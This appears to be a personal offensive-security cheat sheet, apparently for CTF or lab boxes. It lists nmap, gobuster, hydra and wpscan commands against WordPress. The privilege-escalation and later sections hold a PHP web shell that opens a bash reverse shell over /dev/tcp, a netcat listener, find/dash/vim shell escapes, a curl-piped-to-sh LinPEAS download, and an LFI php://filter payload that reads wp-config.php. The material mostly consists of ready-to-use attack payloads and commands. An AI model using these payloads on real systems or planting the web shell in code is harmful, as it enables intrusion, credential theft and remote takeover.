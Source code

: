 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |
| smbclient | smbclient -L \\\\[IP]\\[Directory] |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Start HTTP Server: python3 -m http.server
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```
Binaries
```
/usr/bin/dash -p
Path: /usr/bin/find. Exp: find . -exec /bin/sh -p \; -quit
```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Escape  restricted environments (vim)
```
:!/bin/sh
:set shell=/bin/sh // :set shell=/bin/bash:shell
:shell
```
## Port Scanning

One-liner
```
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
```

## Dynamic tunnel
Over Socks 5: ssh -D PORT [USER]@[IP]
![image](https://github.com/user-attachments/assets/bb6c4651-ac44-4144-9765-845565b9a826)

## Force the server to read and encode the file before processed
Example (with LFI, wp file) 
http://[IP]/lx.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

## Check commands in a restricted shell
"TAB TAB"


